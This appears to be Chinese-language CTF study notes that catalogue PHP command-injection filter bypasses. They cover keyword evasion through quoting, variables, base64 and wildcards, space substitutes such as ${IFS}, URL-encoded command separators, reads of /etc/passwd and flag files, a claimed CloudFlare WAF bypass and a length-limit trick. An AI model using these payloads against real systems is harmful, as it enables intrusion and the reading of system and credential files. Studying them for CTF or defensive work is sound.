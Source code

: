 ```yaml
---
title: 简单命令执行的学习
date: 2022-09-8 16:37:45
tags:
- rce
categories: 
- web
- 笔记
---
```


> 参考: https://blog.csdn.net/qq_44657899/article/details/107676580

# 常见函数

```php
system()
passthru()
exec()
shell_exec()
proc_open()
popen()
pcntl_exec()
dl()
```

# 绕过

## 关键词过滤

### 双写绕过

```ccatat -> cat```

### 大小写绕过

```cAt``

### 代替方案

```php
more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
sh /flag 2>%261  //报错出文件内容
```

### 转义符

```bash
ca\t /fl\ag
cat fl''ag
```

### 变量拼接

```bash
a=fl;b=ag.php;cat$IFS$a$b
```

### 内联执行

```bash
cat `ls` 
# 等同于-->
cat flag.php;cat index.php
```

### 编码进制绕过

```bash
[root~]#  echo 'cat' | base64
Y2F0wqAK
[root~]#  `echo 'Y2F0wqAK' | base64 -d` 1.txt
hello world
```

### 通配符

```bash
1) 利用正则匹配绕过
[root~]# cat /???/pass*
    
2) 例如过滤/etc/passwd中的etc，利用未初始化变量，使用$u绕过
[root~]# cat /etc$u/passwd
    
备注：此方法能绕CloudFlare WAF（出自：https://www.secjuice.com/php-rce-bypass-filters-sanitization-waf/）
```

### 空变量

```bash
使用$*和$@，$x,${x}
ca$*t ./flag
ca$@t ./flag
```

### 读文件替代方案

```bash
curl file:///flag
strings /flag
uniq -c/etc/passwd
bash -v /etc/passwd
rev /etc/passwd
```

### dir和ls的替代

```bash
find -- 列出当前目录下的文件以及子目录所有文件
```

## 空格过滤

- %09（url传递）(`cat%09flag.php`)
- ${IFS}
- \$IFS$9
- <>（`cat<>/flag`）
- <（`cat</flag`）
- {cat,flag}

## 过滤目录分隔符

```bash
;cd flag_is_here;cat *
```

## 过滤 | & ;

### 替代方案

可以使用%0a代替，%0a其实在某种程度上是最标准的命令链接符号

| **注入算子** | **注入字符** | **URL 编码字符** | **执行的命令**                 |
| ------------ | ------------ | ---------------- | ------------------------------ |
| 回车符       | `enter`      | `%0d`            | /                              |
| 分号         | `;`          | `%3b`            | 两个都(cmd不行 powershell可以) |
| 换行         | `\n`         | `%0a`            | 两个都                         |
| 后台进程     | `&`          | `%26`            | 两者（通常首先显示第二个输出） |
| 管道         | `|`          | `%7c`            | 两者（仅显示第二个输出）       |
| 和           | `&&`         | `%26%26`         | 两者（仅当第一次成功时）       |
| 或者         | `||`         | `%7c%7c`         | 第二（仅当第一次失败时）       |
| Sub-shell    | ` `` `       | `%60%60`         | 两者（仅限 Linux）             |
| Sub-shell    | `$()`        | `%24%28%29`      | 两者（仅限 Linux）             |

### ?>替代最后一个;

在php中可以用 `?>` 来代替最后一个 `; `因为php遇到定界符关闭标志时，系统会自动在PHP语句之后加上一个分号。

## 字符串长度限制

```bash
root@kali:~/桌面# echo "flag{hahaha}" > flag.txt
root@kali:~/桌面# touch "ag"
root@kali:~/桌面# touch "fl\\"
root@kali:~/桌面# touch "t \\"
root@kali:~/桌面# touch "ca\\"
root@kali:~/桌面# ls -t
'ca\'  't \'  'fl\'   ag   flag
root@kali:~/桌面# ls -t >a     #将 ls -t 内容写入到a文件中
root@kali:~/桌面# sh a
a: 1: a: not found
flag{hahaha}
a: 6: flag.txt: not found
```

`\ `是指换行
`ls -t `将文件按时间排序输出
`sh `命令可以从一个文件中读取命令来执行
